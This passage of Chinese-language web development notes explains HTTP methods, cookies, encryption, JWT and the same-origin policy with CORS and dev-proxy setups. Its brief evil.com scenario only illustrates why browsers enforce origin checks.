| ------- | ---------------------- | ------------------- | -------- |
| GET     | 获取资源               | 请求行（URL query） | 否       |
| POST    | 提交信息 / 新建        | 请求体              | 是       |
| PUT     | 修改（整体替换）       | 请求体              | 是       |
| DELETE  | 删除资源               | 请求行              | 否       |
| PATCH   | 修改（局部更新）       | 请求体              | 是       |
| OPTIONS | 跨域预检 / 询问能力    | ——                  | 否       |
| HEAD    | 只要响应头，不要响应体 | 请求行              | 否       |
| TRACE   | 回显请求，用于诊断     | ——                  | 否       |
| CONNECT | 建立隧道（代理场景）   | ——                  | 否       |

**规律**：语义上"会改变数据"的方法（POST/PUT/PATCH）带请求体；"只定位不改动"或"只需定位就能删"的方法（GET/DELETE/HEAD）不带请求体。


### 安全性与幂等性


安全性（Safe）

> 调用后**不改变服务器资源状态**。

幂等性（Idempotent）

> 执行 1 次和执行 N 次，**服务器最终状态相同**。注意：约束的是"最终状态"，不是"返回值相同"。


| 方法    | 安全 | 幂等 | 说明                                 |
| ------- | ---- | ---- | ------------------------------------ |
| GET     | ✅    | ✅    | 只读                                 |
| HEAD    | ✅    | ✅    | 只读                                 |
| OPTIONS | ✅    | ✅    | 只读                                 |
| PUT     | ❌    | ✅    | 整体替换，改 100 次结果一样          |
| DELETE  | ❌    | ✅    | 删 100 次，最终都是"不存在"          |
| POST    | ❌    | ❌    | 提交 100 次 → 创建 100 条记录        |
| PATCH   | ❌    | ❌    | 如 `{age: age+1}` 这类增量操作不幂等 |


这两个性质推导出了什么现实后果

```
安全  →  可被缓存、可被浏览器/CDN/代理自动重放、可被爬虫随意抓取
幂等  →  网络超时后客户端可以安全重试
```

这条推导链解释了方法里的几乎全部"区别"：

- 浏览器敢缓存 GET，是因为 GET 安全
- 刷新 POST 页面会弹"是否重新提交"，是因为 POST 不幂等，重放会重复下单/重复注册
- GET 能存书签、能分享，是因为它安全且数据全在 URL 里
- 前端做请求重试（retry）时，默认只对 GET/PUT/DELETE 重试，绝不自动重试 POST


### OPTIONS 预检

OPTIONS解决什么问题

跨域请求中，浏览器需要在**造成实际副作用之前**，先问服务器一句："我这种请求你允许吗？"

如果不预检，一个恶意站点直接发 `DELETE https://bank.com/account`，等浏览器发现服务器没给 CORS 许可再拦截响应 —— **数据已经删了**，拦截响应毫无意义。


满足以下全部 = 简单请求 = **不预检**：

- 方法是 `GET` / `HEAD` / `POST` 之一
- `Content-Type` 只能是 `text/plain`、`multipart/form-data`、`application/x-www-form-urlencoded`
- 没有自定义请求头


流程：




### 场景验证

假设你在做电商，需要设计四个接口。

| 需求                 | 正确方法                         | 为什么                               |
| -------------------- | -------------------------------- | ------------------------------------ |
| 查询订单详情         | `GET /orders/1001`               | 只读 → 安全 → 可缓存、可分享、可预取 |
| 提交新订单           | `POST /orders`                   | 不幂等，每次调用产生新订单           |
| 修改收货地址（全量） | `PUT /orders/1001/address`       | 整体替换，重复提交结果一致           |
| 取消订单             | `DELETE /orders/1001` 或 `PATCH` | 删 N 次最终都是"已取消"              |


追问 ：为什么"提交订单"按钮要做防重复点击？

因为 POST 不幂等。用户网络卡时连点 3 下 = 3 个订单。


## Cookie


### 是什么（定义 + 边界）

Cookie 是服务器通过响应头 `Set-Cookie` 交给浏览器保管的一小段键值对文本；浏览器把它存起来，之后向**匹配的域名/路径**发请求时，**自动**放进 `Cookie` 请求头带回去


发出响应后，服务器返回的响应中，响应标头里通常会被设置cookie:



请求标头里带cookie




Cookie 只负责"把一张纸条自动带来带去"，纸条上写什么、可信不可信，全看服务端怎么设计。


### 设计理念

自动存、自动带、自动过期。前端一行代码都不用写，请求就带上了身份——这是 Cookie 最大的价值


### 使用场景

避免反复登录




Cookie + Session：现实中的标准搭配

Cookie 里**只放一个无意义的 sid**，真实数据放服务端。原因：Cookie 在用户手里，可被查看、可被篡改，任何"数据"都不可信。




### 语法


#### 服务端：`Set-Cookie` 响应头

```
Set-Cookie: sid=abc123; HttpOnly; Path=/; Max-Age=3600; SameSite=Lax
```

伪代码示例：

```js
const api = http.createServer(async (req, res) => {
    // 。。。
    res.setHeader('Set-Cookie', [
        // HttpOnly：JS 读不到，防 XSS 偷号
        `sid=${sid}; HttpOnly; Path=/; Max-Age=3600; SameSite=Lax`,
        // 对比项：没有 HttpOnly，document.cookie 能读到
        `theme=dark; Path=/; Max-Age=3600; SameSite=Lax`,
    ]);
    // 。。。
});
```

这 6 个属性需要掌握：

| 属性           | 作用                             | 现实现象                                           |
| -------------- | -------------------------------- | -------------------------------------------------- |
| `Max-Age=3600` | 存活秒数（优先级高于 `Expires`） | 不写 = **会话 Cookie**，关浏览器就没了             |
| `Path=/`       | 路径作用域                       | 写 `/admin` 则访问 `/api` 时不带                   |
| `Domain=a.com` | 域名作用域                       | 写了才能被子域名 `m.a.com` 共享                    |
| `HttpOnly`     | **JS 读不到**                    | `document.cookie` 里看不见它，XSS 偷不走           |
| `Secure`       | 只在 HTTPS 下发送                | 本地 localhost 例外放行                            |
| `SameSite=Lax` | 跨站请求不带                     | 现代浏览器**默认 Lax**，跨站 fetch 直接不带 Cookie |


#### 客户端：`document.cookie`

```js
document.cookie                       // 读：一整个字符串 "theme=dark; lang=zh"，且读不到 HttpOnly 的
document.cookie = 'theme=dark; path=/; max-age=3600'  // 写：一次只能写一条
```

读是全量字符串，写是追加单条。现实开发中前端极少手写，登录态一律由服务端下发。


#### fetch / axios 携带 Cookie

```js
fetch(url, { credentials: 'include' })   // 跨域也带 Cookie（服务端必须配 Allow-Credentials）
axios.defaults.withCredentials = true
```

服务端伪代码：

```js
const api = http.createServer(async (req, res) => {
    // 。。。
    res.setHeader('Access-Control-Allow-Origin', 'http://localhost:3001'); // 对站点'http://localhost:3001'开发跨域
    res.setHeader('Access-Control-Allow-Credentials', 'true'); // 并允许带 Cookie
    // 。。。
});
```

响应标头中添加了对应内容，请求标头中看到来自3000端口，不同源的访问，并携带了cookie




### 删除 Cookie

删除 Cookie 没有 delete 方法：只能用**同名 + 同 Path + 同 Domain** 的 `Set-Cookie` 覆盖，并设 `Max-Age=0`。


## 加密


### 对称加密

是什么：明文 + 密钥 → 密文，密文 + 同一把密钥 → 明文。

解决什么问题：高效地保护数据机密性。速度极快，加密 1GB 文件毫无压力。

**致命短板**：密钥分发问题。你要和对方通信，就必须先把密钥告诉对方——可这把密钥本身怎么安全地传过去？在网络上传就可能被截获，一旦截获，整个通信全裸。




### 非对称加密

是什么：生成一对数学上关联的密钥。公钥可以随便公开，私钥只有自己留着。**用其中一把加密，必须用另一把解密。**

代表算法：RSA、ECC。

**关键**：有两种完全不同的用法方向

```
方向一（保密）：公钥加密 → 私钥解密
  谁都能给我发密文，但只有我能看懂。
  用途：安全地传递数据。

方向二（签名）：私钥加密(签名) → 公钥解密(验证)
  只有我能产出这个签名，但所有人都能验证它确实是我发的。
  用途：证明身份、防伪造。
```

解决了什么问题：解决了密钥分发问题，公钥被截获无所谓，公钥是解不开被公钥加密的东西。

**短板**：慢，比对称加密慢几个数量级，不适合加密大量数据。


图示：




### 摘要 / 哈希 / 散列

是什么：任意长度输入 → 固定长度输出（如 SHA-256 永远输出 64 位十六进制字符）。

本质上是一种验证工具，本身不加密、不保密、只是为任意数据生成一个固定长度的指纹，通过对比指纹是否一致来判断数据有没有被改动、或者是否与预期相符合。


**特性**：

1. 单向不可逆：无法从摘要反推原文
2. 雪崩效应：输入改一个字符，输出面目全非
3. 抗碰撞：两个不同输入几乎不可能得到同一输出

解决什么问题：不是保密，而是**验证"东西有没有被改过""你知不知道那个秘密"**。


### HTTPS场景

```
1. 浏览器访问 https://xxx.com
2. 服务器下发证书，里面有【公钥】
3. 浏览器本地随机生成一把【对称密钥】
4. 用服务器的公钥加密这把对称密钥，发过去   ← 非对称：解决密钥分发
5. 服务器用私钥解开，双方现在共享了对称密钥
6. 之后所有网页数据都用这把对称密钥加解密   ← 对称：解决速度
7. 每个数据包附带摘要                        ← 哈希：解决完整性
```

设计意图：非对称慢但能安全交换钥匙，对称快但钥匙没法安全交换——那就**用非对称传钥匙，用对称传数据**。这叫混合加密。


## JWT


### 是什么（定义 + 边界）

JSON Web Token

JWT 是一串**自带签名、可自证真伪**的身份声明文本。服务端签发它，之后不需要查任何数据库，只靠密钥验一次签名，就能确认"这串东西确实是我签发的、且没被改过"。

- Cookie+Session = **存根式**（服务端有底账，凭编号查）
- JWT = **防伪证书式**（服务端不留底，凭防伪标识当场验）

token翻译是“令牌”


一般都是通过发送请求，让服务器在响应体中返回token



然后在对应的请求头中携带：




### 结构

三段，用 `.` 分隔

`header.payload.signature`

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9 . eyJzdWIiOiJhbGljZSIsImV4cCI6MTc4NzYzOTA0Nn0 . 5ey594pjGFLXwHwkqeH3A1gV2ZA1HRlHBrfBL5iWO2s
└──────── Header（算法）──────────────┘   └──────── Payload（数据）──────────────────┘   └────────── Signature（签名）──────────┘
```



`Header` / `Payload` 只是 base64url 编码，不是加密——任何人复制到 jwt.io 就能读。

`Signature` = HMAC(header.payload, 密钥)，密钥只在服务端。改了 payload 就必然对不上签名。

常用 `Payload` 字段（claims）：`sub`（用户标识）、`exp`（过期时间戳，秒）、`iat`（签发时间）。


### 使用场景




### 语法

```js
// 1. 登录后存起来
localStorage.setItem('token', data.token)

// 2. 每个请求手动带上（标准写法就是这一行）
fetch(url, { headers: { Authorization: `Bearer ${localStorage.getItem('token')}` } })

// 3. 现实项目里统一用拦截器，避免每处都写
axios.interceptors.request.use(config => {
  const token = localStorage.getItem('token')
  if (token) config.headers.Authorization = `Bearer ${token}`
  return config
})
axios.interceptors.response.use(null, err => {
  if (err.response?.status === 401) location.href = '/login'   // 过期统一踢回登录页
  return Promise.reject(err)
})
```

`Bearer ` 这个前缀是 HTTP 规范（RFC 6750）里的"持票人"语义，**空格必须有**，少写一个空格就 401。


服务端

一定要设置响应头，告诉浏览器，跨域请求中允许携带 `Authorization` 这个请求头。

```js
const api = http.createServer(async (req, res) => {
    // 。。。
    res.setHeader('Access-Control-Allow-Headers', 'Content-Type, Authorization');
    // 。。。
});
```


现象：

请求头中显示有`Authorization`字段，响应头中显示有`Access-Control-Allow-Headers`这个字段




### Authorization: Bearer的作用

JWT **不是必须**配合 `Authorization: Bearer` 使用，这只是一种约定俗成的最佳实践，而非强制要求。

`Authorization` 请求头是 HTTP 标准（RFC 7235）定义的专门用于携带认证凭据的字段，格式为：

```
Authorization: <scheme> <credentials>
```


在请求头中携带服务器签发的token


 Bearer 方案的优势

- **语义清晰**：明确告诉服务端这是一个 Bearer Token，而非 Basic、Digest 等其他认证方式
- **框架兼容**：绝大多数认证中间件（Spring Security、Passport.js 等）默认识别此格式，开箱即用


JWT 实际上可以放在任何地方

| 方式                       | 示例                                | 场景                    |
| :------------------------- | :---------------------------------- | :---------------------- |
| Authorization 头（最常见） | `Authorization: Bearer <jwt>`       | REST API                |
| 自定义请求头               | `X-Auth-Token: <jwt>`               | 内部服务                |
| URL 查询参数               | `?token=<jwt>`                      | WebSocket、文件下载链接 |
| Cookie                     | `Set-Cookie: token=<jwt>; HttpOnly` | Web 应用（防 XSS）      |
| 请求体                     | `{ "token": "<jwt>" }`              | 特殊业务场景            |


## 同源策略


### 定义与边界

源 = 协议 + 主机 + 端口


三者**完全相同**才叫同源，任意一个不同就是跨域。

| 源 1                    | 源 2                    | 同源？ | 原因                          |
| ----------------------- | ----------------------- | ------ | ----------------------------- |
| `http://a.com`          | `http://a.com/news`     | ✅      | 路径不算在源里                |
| `https://a.com`         | `http://a.com`          | ❌      | 协议不同                      |
| `http://localhost:5000` | `http://localhost:7000` | ❌      | 端口不同                      |
| `http://localhost:5000` | `http://127.0.0.1:5000` | ❌      | 主机名字符串不同（不解析 IP） |
| `http://www.a.com`      | `http://a.com`          | ❌      | 子域名不同也算不同主机        |

注意最后两条：**只看字符串，不讲道理**。`localhost` 和 `127.0.0.1` 指向同一台机器，浏览器照样判定跨域。


### 它到底限制了什么

同源策略不是"禁止跨域请求"，而是"禁止 JS 读取跨域响应"。

| 行为                            | 是否受限                             |
| ------------------------------- | ------------------------------------ |
| ``          | 不受限，图片正常显示                 |
| `<script src="别人域名">`       | 不受限，脚本正常执行（CDN 就靠这个） |
| `<link href="别人域名">`        | 不受限，样式正常生效                 |
| `<form action="别人域名">` 提交 | 不受限                               |
| **`fetch` / `XMLHttpRequest`**  | **受限**                             |


当被限制时，浏览器控制台中会发出这样的提示：

```
Access to fetch at 'http://api.b.com/data' from origin 'http://a.com'
has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header
is present on the requested resource.
```

同时打开 Network 面板，你会发现：**这个请求状态码是 200，服务器确实返回了数据**。

也就是说——**请求发出去了，服务器也处理了，数据也回来了，是浏览器在最后一步把数据扣下不给你的 JS**。


同是发出请求，为什么 `` 不受限：因为加载图片只能"看到"图片渲染出来，JS 读不到它的像素内容（真要读 canvas 像素，一样会被污染拦截）。**限制的标准是"JS 能否读到内容"。**

例如把图片画到 canvas 上再 `toDataURL()`，就会因为 canvas 被“污染”而失败。


### 设计原因

```
你登录了 bank.com，浏览器存了 Cookie
↓
你误点进 evil.com
↓
evil.com 的 JS 执行：fetch('https://bank.com/api/balance')
浏览器会自动带上 bank.com 的 Cookie（Cookie 按目标域名发送）
↓
evil.com 读到了你的余额，甚至能发转账请求并读取结果
```

同源策略的设计意图：浏览器会自动携带凭证（Cookie），所以必须由浏览器来保证**"A 站的脚本不能拿到 B 站的私密数据"**。它保护的不是服务器，是**用户**。


### 解法


#### 方案一：代理（开发环境最常用）

**原理**：服务器之间没有同源策略。让前端向自己的服务器发送请求，之后，由自己的服务器去转发。

```
浏览器 ──同源请求──> 自己的服务器(localhost:3000) ──普通HTTP──> api.b.com
        (浏览器管)                           (服务器之间无同源限制，浏览器管不着)
```

详细解释：

1、前端的 JS 代码不要直接向 `api.b.com` 发请求，会被拦截，假设假设目前的前端页面是从 `http://localhost:3000` 加载的，那么这个页面的“源”就是 `http://localhost:3000`。此时通过`fetch('/api/users')`使用代理，浏览器会把它解析成：`http://localhost:3000/api/users`

2、因为页面源是 `localhost:3000`，请求目标也是 `localhost:3000`，**同源** → 浏览器放行。

3、那谁来请求 api.b.com 呢？

4、开发服务器上配置了代理规则，收到 `/api` 开头的请求后，它自己以服务器身份去请求 `http://api.b.com`，然后把响应返回给浏览器。


Vite / webpack-dev-server 的配置，实际开发中只需会写这几行：

```js
// vite.config.js
export default {
  server: {
    proxy: {
      '/api': {
        target: 'http://api.b.com',
        changeOrigin: true,        // 把请求头 Host 改成 target 的
      }
    }
  }
}
```


#### 方案二：CORS（生产环境标准方案）

**原理**：

1、前端 JS 发起请求，浏览器判定为跨域 ajax 时，会自动在请求头加上 `Origin`：

```
GET /api/news HTTP/1.1
